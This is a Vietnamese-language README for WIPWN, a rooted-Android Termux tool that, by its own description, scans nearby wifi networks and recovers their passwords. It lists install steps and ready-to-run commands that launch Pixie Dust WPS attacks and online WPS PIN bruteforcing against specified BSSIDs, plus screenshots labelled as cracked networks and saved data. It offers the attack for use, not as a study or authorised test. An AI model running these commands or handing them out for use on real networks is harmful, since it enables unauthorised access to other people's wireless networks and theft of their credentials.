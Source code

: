 # WIPWN

![Logo](assets/image.png)

### Quét và xem mật khẩu wifi bằng termux (Root).
    
- [Yêu cầu]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)
 
### Cài đặt :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/haidayne/wipwn
cd wipwn
chmod +x main.py
```
# Nhập thủ công :

```bash
pkg update && pkg upgrade -y
```
```bash
pkg install root-repo -y
```
```bash
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
```
```bash
git clone https://github.com/haidayne/wipwn
```
```bash
cd wipwn
```
```bash
chmod +x main.py
```

#### lệnh hỗ trợ :
```bash
sudo python main --help
```
#### Lệnh sử dụng :
```bash
sudo python main.py -i wlan0 -K
```

#### Note: 
+ **Đầu tiên hãy tắt Wifi của bạn (bắt buộc) .**
+ **Bật Điểm phát sóng (không bắt buộc) .**
+ **Bật Vị trí.**
- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust trên một mạng đã chỉ định.
```bash
sudo python main.py -i wlan0 -K
```
-```bash wipwn.sh```
- - Bắt đầu tấn công Pixie Dust vào BSSID được chỉ định:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Khởi chạy WPS bruteforce trực tuyến với nửa đầu tiên được chỉ định của mã PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Xử lý sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi rồi tắt Wifi.**

---

## Ảnh chụp màn hình

| Banner | Cracked | Saved Data | config.txt | 
| :---: | :---: | :---: | :---: |
| ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/1.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/2.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/3.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/4.jpg) |


### ❤️ Cảm ơn vì những ngôi sao và forks
[![Stargazers repo danh sách cho @anbuinfosec/wipwn](https://reporoster.com/stars/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)
[![Forkers repo roster for @anbuinfosec/wipwn](https://reporoster.com/forks/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)
